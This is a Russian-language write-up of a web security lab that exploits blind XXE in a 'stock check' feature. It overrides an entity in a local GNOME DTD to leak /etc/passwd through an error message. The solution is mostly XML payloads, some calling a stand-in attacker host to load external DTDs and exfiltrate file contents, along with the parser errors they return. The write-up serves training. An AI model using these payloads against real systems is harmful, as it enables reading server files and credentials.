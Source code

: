 В этой лабораторной работе есть функция «Проверка запасов», которая анализирует входные данные XML, но не отображает результат.

Для решения лабораторной работы вызовите сообщение об ошибке, содержащее содержимое файла `/etc/passwd`.

Вам необходимо будет сослаться на существующий файл DTD на сервере и переопределить сущность из него.
#### Намекать
Системы, использующие среду рабочего стола GNOME, часто имеют DTD, `/usr/share/yelp/dtd/docbookx.dtd`содержащий сущность, называемую `ISOamso.`


## Дано

уязвимость в функции «Проверка запасов»
уязвимость не отображает результат

Системы, использует среду рабочего стола GNOME, 
имеет DTD`/usr/share/yelp/dtd/ISOamso.dtd`
## Задача

содержимое файла `/etc/passwd`.


# Решение

Формат запроса
```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>1</productId>
	<storeId>1</storeId>
</stockCheck>
```

добавляем внешнюю сущность посмотрим на поведение
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ 
	<!ENTITY % xxe SYSTEM "http://web-attacker.com"> 
	%xxe; 
]>
<stockCheck>
	<productId>1</productId>
	<storeId>1</storeId>
</stockCheck>
```
- "XML parser exited with error: Process did not complete successfully" но на сервере видим активность

пробуем добавить полезную нагрузку 
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ 
	<!ENTITY % xxe SYSTEM "file:///etc/hostname">> 
	%xxe; 
]>
<stockCheck>
	<productId>1</productId>
	<storeId>1</storeId>
</stockCheck>
```
- "XML parser exited with error: org.xml.sax.SAXParseException; lineNumber: 3; columnNumber: 47; The markup declarations contained or pointed to by the document type declaration must be well-formed."

пробуем организовать полезную нагрузку на сервере 
```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfile SYSTEM 'https://http://web-attacker.com/%file;'>">
```
- а нам не дан эксплоит так что увы и ах, работаем по сути задачи

Формируем запрос к локальной сущности
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ 
	<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd"> %local_dtd; 
]>
<stockCheck>
	<productId>1</productId>
	<storeId>1</storeId>
</stockCheck>
```
- Если бы сущности не было то мы бы получили `"XML parser exited with error: java.io.FileNotFoundException: /usr/share/yelp/dtd/ISOamso.dtd (No such file or directory)"`

Формируем преобразование локального `docbookx.dtd` файла а именно его сущности `ISOamso`
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ 
	<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd"> 
	<!ENTITY % ISOamso '
		<!ENTITY &#x25; file SYSTEM "file:///etc/passwd"> 
		 <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
		  &#x25;eval; 
		  &#x25;error; 
	'> 
	%local_dtd; 
]>
<stockCheck>
	<productId>1</productId>
	<storeId>1</storeId>
</stockCheck>
```

![[Pasted image 20250202143921.png]]